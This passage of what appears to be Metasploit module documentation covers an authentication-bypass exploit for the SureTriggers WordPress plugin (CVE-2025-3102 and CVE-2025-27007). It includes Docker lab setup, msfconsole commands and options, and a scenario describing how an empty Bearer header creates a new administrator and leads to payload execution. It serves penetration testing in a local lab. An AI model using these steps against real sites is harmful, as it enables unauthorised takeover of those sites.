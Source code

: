 Create a `custom.ini` file with:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Start the environment:

```bash
docker-compose up -d
```
2. Complete WordPress setup at [http://localhost:5555](http://localhost:5555).
3. Confirm the targeted SureTriggers version is active under **Plugins**.
4. In `msfconsole`:

```bash
use exploit/multi/http/wp_suretriggers_auth_bypass
set RHOSTS 127.0.0.1
set TARGETURI /
set WP_USER eviladmin
set WP_PASS Str0ngP@ss!
set WP_EMAIL eviladmin@example.com
```

## Options

* **WP_USER**, **WP_PASS**, **WP_EMAIL**: New administrator credentials (random by default).
* **ST_AUTH**: *(Optional)* Value for `St-Authorization` header (used by CVE-2025-3102; default empty).
* **ACCESS_KEY**: *(Optional)* Key to reset for CVE-2025-27007 (random by default).
* **ACTION**: Exploit to perform:

  * `CVE-2025-3102`
  * `CVE-2025-27007`

## Scenarios

### CVE-2025-3102: Empty Bearer Admin Creation

1. Ensure SureTriggers v1.0.78 is active.
2. In `msfconsole`, set:

```bash
set ACTION CVE-2025-3102
```
3. Run the module: it will send an empty `St-Authorization: Bearer ` header to `/wp-json/sure-triggers/v1/automation/action`.
4. New administrator is created; payload is uploaded and executed.

### CVE-2025-27007: Reset Access Key & Admin Creation
